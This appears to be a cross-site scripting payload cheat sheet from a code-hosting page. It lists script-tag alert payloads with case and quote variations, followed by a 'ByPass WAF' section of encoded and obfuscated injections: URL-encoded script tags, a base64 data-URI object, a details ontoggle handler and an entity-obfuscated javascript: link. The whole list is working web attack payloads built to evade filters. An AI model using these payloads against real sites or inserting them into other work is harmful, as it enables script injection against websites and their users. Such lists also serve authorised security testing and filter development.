     <script>alert(123);</script>
    <ScRipT>alert("XSS");</ScRipT>
    <script>alert(123)</script>
    <script>alert("hellox worldss");</script>
    <script>alert(“XSS”)</script> 
    <script>alert(“XSS”);</script>
    <script>alert(‘XSS’)</script>
    “><script>alert(“XSS”)</script>
    <script>alert(/XSS”)</script>
    <script>alert(/XSS/)</script>
    </script><script>alert(1)</script>
    ‘; alert(1);
    ‘)alert(1);//
    <ScRiPt>alert(1)</sCriPt>


##ByPass WAF

    </script><svg><script>alert(1)-%26apos%3B
    anythinglr00</script><script>alert(document.domain)</script>uxldz

    anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
    <object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
    <dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
    <a href=javas&#99;ript:alert(1)>
